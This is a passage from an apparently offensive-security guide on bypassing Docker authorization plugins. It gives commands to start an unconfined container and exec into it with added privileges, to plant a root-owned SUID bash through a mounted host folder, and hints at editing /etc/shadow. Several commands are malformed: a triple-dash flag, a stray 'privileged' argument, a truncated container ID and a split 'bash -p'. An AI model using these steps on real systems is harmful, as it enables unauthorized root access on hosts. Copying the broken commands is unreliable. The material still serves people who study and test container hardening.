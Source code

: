 However, a user can **create a shell inside the running container and give it the extra privileges**:

```bash
docker run -d --security-opt seccomp=unconfined --security-opt apparmor=unconfined ubuntu
#bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de

# Now you can run a shell with --privileged
docker exec -it privileged bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4f1de bash
# With --cap-add=ALL
docker exec -it ---cap-add=ALL bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
# With --cap-add=SYS_ADMIN
docker exec -it ---cap-add=SYS_ADMIN bb72293810b0f4ea65ee8fd200db418a48593c1a8a31407be6fee0f9f3e4 bash
```

Now, the user can escape from the container using any of the [**previously discussed techniques**](./#privileged-flag) and **escalate privileges** inside the host.

## Mount Writable Folder

In this case the sysadmin **disallowed users to run containers with the `--privileged` flag** or give any extra capability to the container, and he only allowed to mount the `/tmp` folder:

```bash
host> cp /bin/bash /tmp #Cerate a copy of bash
host> docker run -it -v /tmp:/host ubuntu:18.04 bash #Mount the /tmp folder of the host and get a shell
docker container> chown root:root /host/bash
docker container> chmod u+s /host/bash
host> /tmp/bash
 -p #This will give you a shell as root
```

> [!NOTE]
> Note that maybe you cannot mount the folder `/tmp` but you can mount a **different writable folder**. You can find writable directories using: `find / -writable -type d 2>/dev/null`
>
> **Note that not all the directories in a linux machine will support the suid bit!** In order to check which directories support the suid bit run `mount | grep -v "nosuid"` For example usually `/dev/shm` , `/run` , `/proc` , `/sys/fs/cgroup` and `/var/lib/lxcfs` don't support the suid bit.
>
> Note also that if you can **mount `/etc`** or any other folder **containing configuration files**, you may change them from the docker container as root in order to **abuse them in the host** and escalate privileges (maybe modifying `/etc/shadow`)

## Unchecked API Endpoint

The responsibility of the sysadmin configuring this plugin would be to control which actions and with which privileges each user can perform. Therefore, if the admin takes a **blacklist** approach with the endpoints and the attributes he might **forget some of them** that could allow an attacker to **escalate privileges.**

You can check the docker API in [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/#)
